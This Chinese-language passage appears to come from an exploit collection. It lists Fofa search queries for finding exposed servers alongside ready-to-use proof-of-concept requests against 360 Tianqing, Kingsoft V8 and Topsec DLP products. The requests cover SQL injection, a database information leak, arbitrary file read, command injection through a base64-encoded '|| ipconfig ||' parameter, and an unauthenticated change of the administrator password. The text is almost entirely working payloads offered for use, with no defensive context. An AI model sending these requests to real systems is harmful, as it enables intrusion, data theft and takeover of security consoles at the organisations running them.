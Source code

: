 > Fofa: title="360天擎"

- **前台SQL注入**
    - POC | Payload | exp
        ```
        /api/dp/rptsvcsyncpoint?ccid=1
        ```

- **数据库信息泄露漏洞**
    - POC | Payload | exp
        ```
        http://x.x.x.x/api/dbstat/gettablessize
        ```

**金山 V8 终端安全系统**

> Fofa: title="在线安装-V8+终端安全系统Web控制台"

- **任意文件读取漏洞**
    - POC | Payload | exp
        ```
        /htmltopdf/downfile.php?filename=downfile.php
        ```

- **pdf_maker.php 命令执行漏洞**
    - 相关文章
        - [某终端安全系统Nday分析+复现](https://mp.weixin.qq.com/s/DJVjf0s5-8bnh-We3uD56A)

    - POC | Payload | exp
        ```
        POST /inter/pdf_maker.php HTTP/1.1
        Content-Type: application/x-www-form-urlencoded

        url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
        ```

---

### 数据防泄漏系统

**天融信数据防泄漏系统**
- **越权修改管理员密码**
    ```
    无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

    POST /?module=auth_user&action=mod_edit_pwd

    Cookie: username=superman;
    uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
    ```

